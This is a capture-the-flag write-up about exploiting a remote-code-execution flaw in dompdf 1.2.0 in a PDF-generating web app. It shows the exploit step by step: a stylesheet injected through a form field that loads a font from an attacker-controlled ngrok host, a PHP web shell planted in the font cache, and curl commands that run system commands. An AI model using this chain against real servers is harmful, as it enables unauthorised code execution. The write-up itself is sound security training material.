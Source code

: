 # Whoever Keeps Trying It, Gets It

## Description

Professor is about to get caught. Use the evidence log system to remove any evidence traces leading back to professor. Help him and he will return the favor.

## Solution

Browse to given URL.

![](assets/index.png)

`Evidence Book` menu option redirects us to `book.php`. 

![](assets/book.png)

Inputting the required fields it creates a PDF file. 

![](assets/pdf.png)

Let's download PDF and examine the metadata to know more about how it generated. 

```bash
exiftool export.pdf 
ExifTool Version Number         : 12.04
File Name                       : export.pdf
Directory                       : .
File Size                       : 1350 bytes
File Modification Date/Time     : 2022:04:22 08:01:11-04:00
File Access Date/Time           : 2022:04:22 08:01:11-04:00
File Inode Change Date/Time     : 2022:04:22 08:01:23-04:00
File Permissions                : rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.7
Linearized                      : No
Page Count                      : 1
Producer                        : dompdf 1.2.0 + CPDF
Create Date                     : 2022:04:22 12:01:06+00:00
Modify Date                     : 2022:04:22 12:01:06+00:00
```

This reveals `Producer` field having name and version of the utility. Here it is `dompdf 1.2.0`. Quick google search on this version yields the links to a [repository](https://github.com/positive-security/dompdf-rce) which explaining the vulnerability and how to exploit. 

Stand up a ngrok http server.

```bash
ngrok http 80
sudo python3 -m http.server 80
```

Modify the files accordingly. 

**exploit.css**

```css
@font-face {
    font-family:'exploitfont';
    src:url('http://6f70-103-220-81-241.ngrok.io/exploit_font.php');
    font-weight:'normal';
    font-style:'normal';
  }
```

Submit the below payload in title field. 

```html
<link rel=stylesheet href='http://6f70-103-220-81-241.ngrok.io/exploit.css'>
```

We get two requests on the listener for both the CSS and PHP files. 

```bash
sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
127.0.0.1 - - [22/Apr/2022 08:07:00] "GET /exploit.css HTTP/1.1" 200 -
127.0.0.1 - - [22/Apr/2022 08:07:00] "GET /exploit_font.php HTTP/1.1" 200 -
```

This should create a php file in `dompdf/lib/fonts` folder. Let's see if directory listing is enabled on the site to find the file. 

```bash
curl http://3.23.94.118:9003/dompdf/lib/fonts/ -s | grep exploit
<li><a href="exploitfont_normal_9cdf31bf040248e0079346bc531c52b2.php"> exploitfont_normal_9cdf31bf040248e0079346bc531c52b2.php</a></li>
<li><a href="exploitfont_normal_9cdf31bf040248e0079346bc531c52b2.ufm"> exploitfont_normal_9cdf31bf040248e0079346bc531c52b2.ufm</a></li>
```

The php file is present. Browsing to it confirms the vulnerability. 

![](assets/phpinfo.png)

Modify php file to get command execution with below line. 

```php
<?php system($_GET['c']);?>
```

It fails to load the php file. Could be that due to dompdf cache issue. Rename css and php files to other new name. Triggering the exploit again works. 

```bash
curl -s http://3.23.94.118:9003/dompdf/lib/fonts/exploitfont_normal_f5a0ae4fd5c958ba15b8038b71713e4b.php?c=id --output result;cat result | tail -1
uid=100(apache) gid=101(apache) groups=82(www-data),101(apache),101(apache)
```

Flag is present in `/`.

```bash
curl -s http://3.23.94.118:9003/dompdf/lib/fonts/exploitfont_normal_f5a0ae4fd5c958ba15b8038b71713e4b.php?c='cat+/flag.txt' --output result;cat result | tail -1
ACVCTF{g0nn4_g3l_th3m_4ll}
```

